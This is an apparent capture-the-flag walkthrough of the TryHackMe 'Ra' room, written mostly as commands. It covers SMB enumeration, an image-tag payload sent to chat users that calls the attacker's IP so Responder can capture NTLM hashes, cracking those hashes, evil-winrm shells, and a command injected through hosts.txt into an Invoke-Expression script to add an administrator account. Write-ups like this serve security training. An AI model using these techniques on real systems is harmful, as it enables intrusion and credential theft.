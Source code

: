 ```yaml
---
date: 2025-04-13
categories: [CTF, THM]
title: "THM - Ra"
tags: ['hashcat', 'john the ripper', 'linux', 'nmap', 'powershell', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows']

description: "Ra - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Ra

NMAP

![image1](../resources/8906737690fe4969b794dacdb443efbe.png)
 

![image2](../resources/ea4a09b3c8ca48fc918a28318ded183b.png)

- Add windcorp.thm and fire.windcorp.thm to /etc/hosts

![image3](../resources/abc8141094704b8b94506719ac7a2052.png)

- On the website there is a Reset password button


![image4](../resources/da51e79efa3c430a9073609676bca745.png)


![image5](../resources/f2c3a93ffdac439ea71393857cb11218.png)

There is a question about your favourite pets name

And we can see that Lily is holding her dog

- Inspecting the picture we can see the dogs name - Sparky and Lily's username - **lilyle**


![image6](../resources/bf8ebf1614094690bf8e77e4ee9d499f.png)

- Reset the password


![image7](../resources/5d49410733974966be169a6f389d2c8b.png)

- We can check if it worked using CME:

```bash
crackmapexec smb windcorp.thm -u lilyle -p ChangeMe#1234

```

![image8](../resources/cb851d01db29483488a032d7baabcbc2.png)

- If it was wrong it would've shown:

![image9](../resources/a8c3a64499d34a9abe4e7a7842f1aea6.png)

- Run enum4linux again with credentials:

```bash
enum4linux -u windcorp.thm/lilyle -p ChangeMe#1234 -a 10.10.128.53

```

![image10](../resources/96cd4bab859849e9b62c65dfb183c748.png)

- Connect to shares:

```bash
smbclient //10.10.128.53/users -U windcorp.thm/lilyle%ChangeMe#1234

```

![image11](../resources/91b2052e029c487ca2444918db024922.png)

```bash
smbclient //10.10.128.53/Shared -U windcorp.thm/lilyle%ChangeMe#1234

```

![image12](../resources/c9fdbd7b1f314b6d9369bbce2dddd9de.png)

- Looking at the files in the share. The files are for an app called Spark which is a client that talks to the Openfire backend

- Looking for vulnerabilities - Found: <https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md>
Which the creators of Ra made (so gotta be it)

- More Enum:

![image13](../resources/912a541604ca4877a6c3984cc7e376bc.png)

- Doing inspect network:

![image14](../resources/21188f087d94477b8298bb1cf3a2c34d.png)

- **Openfire (xmpp) usersnames potentially**

Save in file and

```bash
cat users_xmpp_info| cut -d ":" -f 4 | cut -d "@" -f 1 > xmpp_users

```

![image15](../resources/18f388baeaa647dab392f8fb2d486939.png)

- This spark app part, I had to do on the THM Attack box (dependency issues)

```bash
dpkg -i spark_2_8_3.deb

```

![image16](../resources/e9188badf0dd4e00bd5296563d1d0e87.png)

- Just type:

```bash
spark
```

![image17](../resources/10a223938a94415ea7e89448cc3a7c55.png)

- Login with:  
lilyle : ChangeMe#1234

Tick Login as invisible


![image18](../resources/91306d9cc1c247c9b59b745d0f10e6ee.png)

- Tick these:

![image19](../resources/752e1e7070fa4160acaa12dabf01eb0a.png)

- Tried this Spark part for ages and keep getting different errors ie.

![image20](../resources/328c4957a3bb4c978ad1aa0257ff60f3.png)

Moving on:

- Set up Responder:

```bash
sudo responder -I tun0

```
- Craft a message and send it to everyone in the Openfire users list, with the following in:

```text
<img src=http://yourtun0IP/a.png>

<img src="http://10.10.14.66/a.png">

```
- Got a hash for buse

![image21](../resources/02ff9ff0a13644239c6a7d49586753e7.png)

- Save in file (hash) - **Make sure it's all on one line**

- Crack with john:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

```

![image22](../resources/12c2aa19c59e4608acfc54edb3ada15b.png)

- Or hashcat:

```bash
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt

```

![image23](../resources/cf2403c39d3b41e984c97d6e1f5525d0.png)

- Got credentials **buse : uzunLM+3131**

- Get shell with evil-winrm:

```bash
evil-winrm -i 10.10.103.165 -u buse -p uzunLM+3131

```

![image24](../resources/51196acbea614604bfdb0e29217e087a.png)

- Everything else in there is a rabbithole

- Suspicious folder in C:\\ that isn't part of the default Windows install (scripts)

![image25](../resources/93e37497fe884a0eb09cb4233990e5d0.png)


![image26](../resources/bb74330a31bd440ea17d0ecc1fd9457b.png)

- When we read the powershell script file

![image27](../resources/046b10acf70247ddab7a60030d6e8f2d.png)

- Two important things:
It gets it's contents from C:\Users\brittanycr\hosts.txt

And it invokes Invoke-Expression

**\*\* Invoke-Expression cmdlet - runs any specified string as a command and returns the results to the console**

- We don't have rights to change or replace the ps1 script or the hosts.txt file in britannycr's directory

- Doing enumeration on the user we have:

```bash
whoami /all

```

![image28](../resources/3dc589c4e11d44dabfd05f06e468d533.png)

- After checking all the groups - one stands out:
**Account Operators**


![image29](../resources/603155f5c5e74c478ded7318e190b139.png)

- With this we can try and change brittanycr's password:

```bash
net user brittanycr Password123! /domain

```

![image30](../resources/b91db5b3d2704154b86f5099a70e7bf1.png)

- We can connect straight to the Users folder through SMB:

```bash
smbclient //10.10.103.165/Users/ -U windcorp.thm/brittanycr%Password123!

```

![image31](../resources/9dd916a9750f4407a67b0ed70306822b.png)

- Create a new hosts.txt file with the following:

```bash
;net user tom Password123! /add;net localgroup Administrators tom /add

```
- The reverse shell scripts got stopped by Windows Defender

- Upload and replace file on SMB (wait 1min for the script to run)


![image32](../resources/6fca0037e4994df1ba9fe2446dd38523.png)


![image33](../resources/cc0d8831ef5b44c7906fbc62fb706112.png)

- Verify with crackmapexec as well:

```bash
crackmapexec smb windcorp.thm -u tom -p "Password123\!"

```

![image34](../resources/36bfe6f6ec4040f8b33fb086f5107ae8.png)

- Use Evil-winrm:

```bash
evil-winrm -i 10.10.103.165 -u tom -p Password123!

cat flag3.txt

```
